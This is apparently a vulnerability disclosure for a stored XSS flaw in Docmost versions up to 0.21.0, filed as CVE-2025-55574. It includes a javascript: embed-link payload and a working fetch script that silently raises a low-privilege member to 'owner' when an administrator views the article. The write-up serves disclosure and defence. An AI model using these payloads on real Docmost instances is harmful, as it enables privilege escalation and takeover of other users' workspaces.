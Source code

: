 # CVE-ID
CVE-2025-55574

# Bug author
markbug

# Product
docmost

GitHub Link: https://github.com/docmost/docmost

# Description
In Docmost versions <= 0.21.0, an XSS vulnerability exists in published articles. This vulnerability can be exploited to steal the credentials of any user who views content containing the XSS payload. If a system administrator is targeted, the attacker can further achieve stealth privilege escalation.

Vulnerability Type: XSS

Vulnerability Severity: high

Affected Version <= 0.21.0

# Detailed Procedure
A member creates a new article as follows and inserts an XSS payload into it, as shown below:
<img width="2380" height="778" alt="image" src="https://github.com/user-attachments/assets/1976a626-3900-4b3e-ad60-70f26b56f913" />
wite the pyload ：`javascript:console.log('xss')`
<img width="2214" height="1042" alt="image" src="https://github.com/user-attachments/assets/4455deb2-1241-41c4-84dc-58537717ba8b" />
After clicking the Embed link button, the result of the XSS code execution can be observed in the browser console.
<img width="2113" height="942" alt="image" src="https://github.com/user-attachments/assets/d1adfe69-7991-487c-99a2-75d0ec1bfcf6" />

## Privilege escalation
By inserting the following code into the article, when a high-privilege system user accesses the article, the low-privilege user's role can be silently elevated to "owner", the highest permission level.
```javascript
fetch('http://172.245.168.131:3000/api/workspace/members/change-role', {
  method: 'POST',
  credentials: 'include',
  headers: {
    'Content-Type': 'application/json'
  },
  body: JSON.stringify({
    userId: '019856a5-5642-7256-9b91-2edccd701d92',
    role: 'owner'
  })
})
.then(response => response.json())
.then(data => {
  console.log('Change role response:', data);
})
.catch(error => {
  console.error('Error:', error);
});
```